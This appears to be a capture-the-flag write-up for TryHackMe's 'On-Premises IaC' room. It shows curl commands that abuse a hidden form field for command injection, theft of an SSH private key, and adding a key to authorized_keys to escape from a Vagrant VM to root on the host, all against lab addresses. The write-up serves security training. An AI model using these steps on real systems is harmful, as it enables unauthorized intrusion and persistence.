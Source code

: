 # [On-Premises IaC](https://tryhackme.com/room/onpremisesiac)

## Task 7 - Attacking On-Prem IaC

### What is the value stored in the flag1-of-4.txt file?

In `iac/provision/roles/webapp/templates/app/templates/signin.html`:

```html
<form class="form-signin" action="/api/testDB" method="post">
  <input type="hidden" name="_command" value="service mysql status"/>
  <button id="btntestDB" class="btn btn-lg btn-primary btn-block" type="submit">(Dev) Test DB</button>
</form>
```

In `iac/Vagrantfile` we can see the IP of the webserver:

```vagrantfile
config.vm.define "webserver"  do |cfg|
    ...
    cfg.vm.network :private_network, ip: "172.20.128.2", netmask: "24"
```

So:

```shell
curl -X POST http://172.20.128.2:80/api/testDB -d "_command=whoami"
```

Returns:

```html
<h1 class="font-orbitron text-4xl text-gray-100 text-glow">
  root
</h1>
```

So now we can execute whatever we want:

```shell
curl -X POST http://172.20.128.2:80/api/testDB -d "_command=cat /root/flag1-of-4.txt"
```

Returns:

```html
<h1 class="font-orbitron text-4xl text-gray-100 text-glow">
  THM{___.________.___.______.___.__._________}
</h1>
```

You can also do it from the AttackBox with ssh tunneling:

On the AttackBox:

```shell
export MACHINE_IP=10.10.x.x
ssh -L 8080:172.20.128.2:80 entry@$MACHINE_IP
ssh -L 2222:172.20.128.2:22 entry@$MACHINE_IP
```

Then you can go to http://localhost:8080 in the AttackBox or `curl http://localhost:8080` or `ssh localhost -p 2222` 


### What is the value stored in the flag2-of-4.txt file?

```shell
curl -X POST http://172.20.128.2:80/api/testDB -d "_command=ls -laR /vagrant"
```

Returns among other things:

```
/vagrant/keys:
total 16
drwxr-xr-x 2 1000 1000 4096 Jan 23  2024 .
drwxr-xr-x 5 1000 1000 4096 Jul  3 21:07 ..
-rw------- 1 1000 1000 2602 Jan 23  2024 id_rsa
-rw-r--r-- 1 1000 1000  570 Jan 23  2024 id_rsa.pub
```

So we can get the private key:

```shell
curl -X POST http://172.20.128.2:80/api/testDB -d "_command=cat /vagrant/keys/id_rsa"
```

We paste the contents in `id_rsa_vagrant`, we give proper permissions and we ssh:

```shell
chmod 600 id_rsa_vagrant
ssh -i ./id_rsa_vagrant root@172.20.128.2
cat flag2-of-4.txt 
THM{___.__________.____.____.__._______}
```

We have root inside the vagrant VM 🎉

### What is the value stored in the flag3-of-4.txt file?

Continue as root in the vagrant VM:

```shell
mount | grep /dev/root

/dev/root on /vagrant type ext4 (rw,relatime,discard)
/dev/root on /tmp/datacopy type ext4 (rw,relatime,discard)
/dev/root on /tmp/provision type ext4 (rw,relatime,discard)
/dev/root on /etc/resolv.conf type ext4 (rw,relatime,discard)
/dev/root on /etc/hostname type ext4 (rw,relatime,discard)
/dev/root on /etc/hosts type ext4 (rw,relatime,discard)

cat /tmp/datacopy/flag3-of-4.txt
THM{___.______.______.__.__________}
```

### What is the value stored in the flag4-of-4.txt file?

On the AttackBox generate a key pair:

```shell
ssh-keygen
cat ~/.ssh/id_rsa.pub
```

As root in the vagrant VM add public key generated in previous step in the authorized_keys of ubuntu user through the vagrant mount:

```shell
vi /tmp/datacopy/.ssh/authorized_keys
```

Now from the AttackBox:

```shell
export MACHINE_IP=10.10.x.x
ssh -i ~/.ssh/id_rsa ubuntu@$MACHINE_IP
```

We have ubuntu inside the host machine 🎉

```shell
sudo su
cat /root/flag4-of-4.txt
THM{____________._______.____.__________.______}
```

We have root inside the host machine 🎉
